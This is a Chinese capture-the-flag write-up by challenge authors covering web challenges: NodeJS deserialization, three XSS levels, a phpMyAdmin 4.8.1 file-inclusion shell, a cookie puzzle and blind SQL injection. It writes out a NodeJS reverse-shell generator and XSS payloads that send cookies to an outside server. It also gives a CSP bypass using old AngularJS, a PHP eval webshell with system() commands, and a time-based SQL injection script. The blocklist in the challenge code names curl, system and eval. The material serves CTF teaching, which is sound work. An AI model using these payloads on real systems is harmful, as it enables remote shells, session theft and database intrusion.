


Web¶
你好呀¶
考查要点¶
- NodeJS 反序列化
解题过程¶
- 打开题目，F12 查看源码，在注释中可以发现在
/app.js.bak处可以查看源码。 - 查看源码之后，发现一处反序列化，考虑使用反序列化来进行代码执行。
- 由于 NodeJS 的代码执行在后端执行，没有回显，此处有几种常见方式获得回显：DNS 解析，HTTP 请求，反向 Shell（由于 docker 只开放了一个端口，无法使用正向 Shell）。
- DNS 解析，HTTP 请求的利用方法大家可以自行搜索，此处展示使用反向 shell 的方法。首先，需要生成一个 nodejs 的反向 shell，脚本如下：
import sys if len(sys.argv) != 3: print "Usage: %s <LHOST> <LPORT>" % (sys.argv[0]) sys.exit(0) IP_ADDR = sys.argv[1] PORT = sys.argv[2] def charencode(string): """String.CharCode""" encoded = '' for char in string: encoded = encoded + "," + str(ord(char)) return encoded[1:] print "[+] LHOST = %s" % (IP_ADDR) print "[+] LPORT = %s" % (PORT) NODEJS_REV_SHELL = ''' var net = require('net'); var spawn = require('child_process').spawn; HOST="%s"; PORT="%s"; TIMEOUT="5000"; if (typeof String.prototype.contains === 'undefined') { String.prototype.contains = function(it) { return this.indexOf(it) != -1; }; } function c(HOST,PORT) { var client = new net.Socket(); client.connect(PORT, HOST, function() { var sh = spawn('/bin/sh',[]); client.write("Connected!\\n"); client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); sh.on('exit',function(code,signal){ client.end("Disconnected!\\n"); }); }); client.on('error', function(e) { setTimeout(c(HOST,PORT), TIMEOUT); }); } c(HOST,PORT); ''' % (IP_ADDR, PORT) print "[+] Encoding" PAYLOAD = charencode(NODEJS_REV_SHELL) print "eval(String.fromCharCode(%s))" % (PAYLOAD)
使用这个脚本可以生成一个反向 shell，然后只需要将这个反向 shell 放到 cookie 里。我们创建一个对象y={rce : function (){}},将上面的程序生成的代码粘贴到花括号中，使用 serialize 方法对其进行序列化，得到的代码在函数后加上圆括号，使其能自动执行。效果如下：

三道 XSS 总括¶
- 此次比赛的三道 XSS 是本着不出脑洞的想法出的，题目本身没有绕太多圈圈，但是在比赛环境下没有考虑到资源占用过多和僵尸程序的情况，导致网页巨卡无比和不能打出 flag 的现象。此外，由于出题时各出题人没有协商 flag 格式的问题，我录入 docker 的时候 flag 格式就为
fl4g{}，最后上题的时候又要求scuctf{}，可能坑了一些人，做题体验并不好，在这里表示抱歉 - 三道题都是同一个提交平台，使用子路径作为限制(推荐阅读：https://www.cnblogs.com/fsjohnhuang/archive/2011/11/22/2258999.html)，以达到三题分离但是又使用同一个 bot 的效果。其实在这里我还是挺怕出现简单题打到困难题的 flag 的非预期解（虽然心理上还是比较肯定不会出这种情况 XD）
- 所以，三道题都是将包含打 cookie payload 的 url 交给提交平台，平台 robot 使用 firefox 去访问你提交的 url，从而获取到在 cookie 里的 flag
- 吐槽：xss bot 真的坑，花了很长时间来调 bot，结果比赛的时候还是出问题。。。果然是从入坑到放弃:)
提交平台截图：
简单的 XSS¶
考察要点¶
- XSS 基本概念
- XSS 获取 cookie
解题过程¶
试探和弹窗¶
- 本题没有任何过滤，直接输出传入值，典型的 XSS 入门后台代码。
- 首先，看到网页将传入的参数原样返回：

- 输入简单的弹窗 payload:
?greet=<script>alert(document.domain)</script>直接弹出 domain，可见此处有 XSS 漏洞：
获取 flag¶
- 首先，尝试将自己的 cookie 打到 xss 平台上。
直接填入 payload:
?greet=%3Cimg/src=x%20onerror=%22a=%27http://120.78.185.175/xss/myxss?s=%27%2Bdocument.cookie;new%20Image().src=a%22%3E，访问： 看到成功打出 cookie：
看到成功打出 cookie：

- 将 payload 输入提交页面获取 flag：
 注意要弹出以下窗口才说明 bot 成功访问了 url：
注意要弹出以下窗口才说明 bot 成功访问了 url：
 查看 XSS 平台可以看到成功打到的 flag：
查看 XSS 平台可以看到成功打到的 flag：

稍难一点的 XSS¶
- 本题灵感来源于一篇漏洞悬赏的实战 blog，我记不到具体出处了，就推荐一个网站吧
考察要点¶
- CSP
- DOM XSS（Script Gadgets） 绕过 CSP
- Angularjs
解题过程¶
- 本题在给出 hint 之后难度降低了，顺着思路走就行。
试探和弹窗¶
- 还是查看网页，发现这回有 CSP 策略了，其中有个点值得注意：CSP 对 sina 某域下放行:
*.sinaapp.com： 这个域下有啥好东西呢，这个域下有
这个域下有啥好东西呢，这个域下有lib.sinaapp.com是个 CDN，可以直接引入 JS 库。于是就想起 17 年 blackhat 上的演讲：Script Gadgets - 在该域下找到有 angularjs 的库，并且存在老版本的库:
 老版本的库没有安全过滤，可以达到绕过 CSP 的效果，payload 为：
老版本的库没有安全过滤，可以达到绕过 CSP 的效果，payload 为：
<div ng-app>
{{constructor.constructor('alert(document.domain)')()}}
</div>
- 构造弹窗 payload：
http://120.78.185.175:5000/hachp1/wuziqi/index.php??guest_name=%3Cscript%20src=http://lib.sinaapp.com/js/angular.js/angular-1.0.6/angular.min.js%3E%3C/script%3E%3Cdiv%20ng-app%3E{{constructor.constructor("alert(document.domain)")()}}%3C/div%3E成功弹窗：
获取 flag¶
- 都已经弹窗了，接下来就好办了，类似第一题，直接上 payload：
http://120.78.185.175:5000/hachp1/wuziqi/index.php?guest_name=%3Cscript%20src=http://lib.sinaapp.com/js/angular.js/angular-1.0.6/angular.min.js%3E%3C/script%3E%3Cdiv%20ng-app%3E{{constructor.constructor("document.location='http://120.78.185.175/xss/myxss?c='%2Bdocument.cookie;")()}}%3C/div%3E
- 拿到 flag：

更难的 XSS¶
考察要点¶
- 原有的 script 标签可被之前插入的
<script>破坏 - 标签 name 可以通过 js 直接成为变量从而覆盖变量
- 搜原题的能力:)
原题 WP¶
- 本题来源于 TCTF2018 的 bl0g 题
- 原题 WP 推荐 https://lorexxar.cn/2018/04/05/0ctf2018-blog/
解题过程¶
试探和弹窗¶
- 进入网页，还是 CSP，但是更严格了：

- 更改 payload，查看源代码，可以看到参数输出的两个位置：


- 页面中的 JS 代码运行过程分析一下，最后一段源码将第一段源码中出现的连接 append 到网页后：


- 观察可以发现，可控点一个在第一段代码前，一个则直接决定了 name_links 的索引。所以我们可以通过第一个可控点破坏第一段代码，第二段代码构造 name 为 name_links 的 form 标签，并直接通过 name_links 获取我们构造的标签的 id 值，并把值输出在页面上；此时，就可以将恶意 payload 注入网页。（可能逻辑有点晕，建议对照 TCTF 原题 WP 一起理解）
- 最后，弹窗 payload 如下（需要注意的两点是，1. 只有标签原有的属性名才能成功获取到，所以这里使用的是 id 来获取；2. 在这里我过滤了除 form 外的其他标签，所以需要先闭合前面的 form 标签，原题的 WP 不能直接用）：
http://120.78.185.175:5000/hachp1/pintu/index.php?name=%22%3E%3Cscript%3E&ft_id=id%22%3E%3C/form%3E%3CForm+name%3Dname_links+id%3D%22%3Cscript%3Ealert(document.domain);%3C%2Fscript%3E%22%3E
弹窗如下：

获取 flag¶
- 同第二题，都弹窗了，剩下的不用说了，打 flag：
http://120.78.185.175:5000/hachp1/pintu/index.php?name="><script>&ft_id=id"></form><Form+name%3Dname_links+id%3D"<script>document.location='http://120.78.185.175/xss/myxss?c='%2Bdocument.cookie;<%2Fscript>">
flag:

出题人寄语¶
- 最后，祝贺在比赛中打出三道题的大佬 XD，也希望没有打出来的同学们能学到一些东西，这样这三题的使命就完成了。
艾迪魔力转圈圈¶
这道题别看 400 多分在 Web 题里分是最高的，其实这也算一道送分题，实际难度大概 150 分左右 到最后只有四五个队伍做出来，还是有些感慨
题目提示了用户名是 scuctf，密码没给，这种情况都是弱口令，直接 BurpSuite 爆破一下 123456 就出来了
进去看到 PhpMyAdmin，没有全局权限，那就不可以写文件之类的，右边看到 PhpMyAdmin 版本为 4.8.1

然后搜一下这个版本的漏洞，发现一个后台 getshell 的漏洞
https://www.cnblogs.com/fox-yu/p/9209203.html
直接上最简单的做法，还有一个写入表内包含表文件的做法自己找找哈，原理一样~
select '<?php @eval($_GET[1]);?>';
 然后包含一下 sess_cookie 文件
然后包含一下 sess_cookie 文件
index.php?target=db_sql.php%3f/../../../../../../../../var/lib/php/sessions/sess_(你的cookie)
 cookie 是 phpMyAdmin 的值
cookie 是 phpMyAdmin 的值
然后
index.php?target=db_sql.php%3f/../../../../../../../../var/lib/php/sessions/sess_(你的cookie)&1=system('ls /');

index.php?target=db_sql.php%3f/../../../../../../../../var/lib/php/sessions/sess_(你的cookie)&1=system('cat /fl444444g');
 这道题到此为止~
这道题到此为止~
来了老弟¶
这道题一开始是没人做出来的，但只有 80 分的题嘛，能难倒那里去呢？
这里使用第二个地址（俩地址一样）
给的地址只是 http://47.96.138.65:45787/didi
进去之后就一个腰子姐和 PDD，但是你们仔细观察 UR 里的变化了嘛？
你输入的是 http://47.96.138.65:45787/didi
进去变成了 http://47.96.138.65:45787/didi/secret.php
apache 默认的入口文件是 index.php 他却是出现的 secret.php，这不是有问题嘛
F12 一下看到 index.php 被 302 跳转了，并且 flag 就在下面的 Set-Cookie 中，这里我设置了 cookie 生效时间为 0.01 秒，且只容许对 index.php 生效，所以在其他网页里是看不到的

直接把 flag 的值 base64 解码一下就出来 flag 了 做题过程中看到有的同学直接 scuctf{U0NVQ1RGe3kwVV9qVXM3X25lRWRfY2FyM2Z1bH0%3D} 提交了上来，其实就差最后一步了，有点可惜~
所以这道题其实很简单，就考个简单的抓包和看你细心程度，OK 下一道~
BabySqli¶
这里放上源代码
config.php
<?php error_reporting(0); $servername = "localhost"; $username = "root"; $password = "**********************"; $dbname = "scuctf"; function stop_hack($value){ $pattern = "insert|delete|bool|extractvalue|rand|group|geometrycollection|multipoint|multipolygon|regexp|linestring|multilinestring|name_const|right|char|benchmark|polygon|char|rlike|concat|rpad|repeat|sleep|ascii|innodb|and|if|exp|updatexml|left|pow|concat_ws|group_concat|substr|join|floor|\.\.\/|\.\/|into|load_file|outfile|dumpfile|sub|hex|file_put_contents|fwrite|curl|system| |eval"; $back_list = explode("|",$pattern); foreach($back_list as $hack){ if(preg_match("/$hack/i", $value)) die("$hack detected!Do not want to get flag!!<br>"); } return $value; } ?>
index.php
<?php include 'config.php'; error_reporting(0); $conn = new mysqli($servername, $username, $password, $dbname); if ($conn->connect_error) { die("连接失败: "); } $sql = "SELECT COUNT(*) FROM users"; $whitelist = array(); $result = $conn->query($sql); if($result->num_rows > 0){ $row = $result->fetch_assoc(); $whitelist = range(1, $row['COUNT(*)']); } if (!empty($_GET['id'])){ $id = stop_hack($_GET['id']); $sql = "SELECT * FROM users WHERE id=$id"; if (!in_array($id, $whitelist)) { die("id $id is not in whitelist."); } $result = $conn->query($sql); if($result->num_rows > 0){ $row = $result->fetch_assoc(); foreach ($row as $key => $value) { if(preg_match("/scuctf{.+?}/i",$value)){ die("scuctf is found!!"); } } echo "<center><table border='5'>"; foreach ($row as $key => $value) { echo "<tr><td><center>$key</center></td><br>"; echo "<td><center>$value</center></td></tr><br>"; } echo "</table></center>"; } else{ echo "what do you want do??"; } } else{ echo "Please input id!"; } ?>
建表 sql 文件
create database scuctf; use scuctf; create table users ( id int(6) unsigned auto_increment primary key, name varchar(20) not null, email varchar(30) not null, salary int(8) unsigned not null ); INSERT INTO users VALUES(1,'GodHuang','GodHuang@scuctf.com',3000); INSERT INTO users VALUES(2,'GodSun','GodSun@scuctf.com',4500); INSERT INTO users VALUES(3,'CaiJiWo','CaiJiWo@scuctf.com',2700); INSERT INTO users VALUES(4,'GodWu','GodWu@scuctf.com',10000); INSERT INTO users VALUES(5,'GodPang','GodPang@scuctf.com',6000); create table flag(guess varchar(20) not null, fffffffl11lgg varchar(30) not null, secert varchar(30) not null, flag varchar(30) not null ); INSERT INTO flag VALUES('what happened?','scuctf{3q1i_i3_t0o_e43y}','I can not tell you!','I am not flag Hhhhhhh!!');
过滤如下：
$pattern =" insert|delete|bool|extractvalue| rand|group|geometrycollection|multipoint| multipolygon|regexp|linestring| multilinestring|name_const|right|char| benchmark|polygon|char|rlike|concat|rpad| repeat|sleep|ascii|innodb|and|if|exp| updatexml|left|pow|concat_ws|group_concat| substr|join|floor|\.\.\/|\.\/|into| load_file|outfile|dumpfile|sub|hex| file_put_contents|fwrite|curl|system| | eval";
这道题我出题的时候，参考了很多大牛的博客文章，关闭了报错提示和绝大部分时间盲注函数(可能有遗漏的)
但我却留下了 get_lock()函数
题目上线前，我把 or 和 and 正则匹配过滤了，导致不可以直接通过 information 来查询表和字段名
但上线后出了点问题，or 和 and 实际上没有过滤掉（这是第二天才发现的），并且最重要的是没有全字匹配，导致可以直接 select * from flag 全查出来！于是赶紧下线，加入了正则匹配
foreach ($row as $key => $value) { if(preg_match("/scuctf{.+?}/i",$value)){ die("scuctf is found!!"); } }
不可以当前页面直接注入出来 scuctf{}整个字段了，只能盲注一个个跑了
所以我的整体思路是，通过子查询来不知字段名的情况下获得 fffffffl11lgg 的值 表名得自己猜，但 CTF 比赛中，一般都是 flag,user,ctf 之类的
子查询思路：
https://nosec.org/home/detail/2245.html
盲注具体方法很多，我 POC 采用的是 get_lock()函数
具体用法如下：
https://xz.aliyun.com/t/2288
（吐槽一下协会服务器性能好的一批，正则延迟注入秒回，延迟不了几秒)
但这里第二天发现 or 和 and 被放出来了，当时很惊讶，本打算改来着，但看到到第二天下午为止也没几个人做出来，就不打算改了，就当降低难度了
所以说这道题如果按我原先的出题思路来看的话，的确比较难，毕竟差不多当半个压轴的，但出了问题之后，难度低了很多，细心琢磨做一下的话，还是可以做出来的~
这里贴一下我原先的 poc 脚本，估计现在不可用了，新的 poc 可以看看做出来队伍的或者等我有时间写（最近太忙了~）
import requests import string dic = string.digits + string.ascii_letters + "!@#$%^&*()_+{}-=" url = "http://47.96.138.65:45787/?id=1" session = requests.session() def flag(): i = 1 flag = "" while True: for j in dic: try: payoad = "/**/%26%26/**/mid((select/**/`2`/**/from/**/(select/**/1,2,3,4/**/" \ "union/**/select/**/*/**/from/**/flag)a/**/limit/**/1,1),{},1)='{}'/**/" \ "%26%26/**/get_lock('ddog',5)".format(i, j) url_all = url + payoad t = session.get(url=url_all, timeout=3).content print(t) if len(t) != 0: print(("[*]Flag:" + flag).replace("#&+","")) flag = flag + j except Exception: pass i = i + 1 if __name__ == "__main__": flag()
出题人寄语¶
总而言之，这次我出的题，除了 Sqli 有点小难以外其他两道题难度还是可以的，心态放好仔细做的话，接大多数人还是可以在这三道题拿到 480 分，对于我刚才提到的 BabySqli 的原有思路，大家可以自己搭建环境测试一下做题思路，这两天大家也做题辛苦了哈~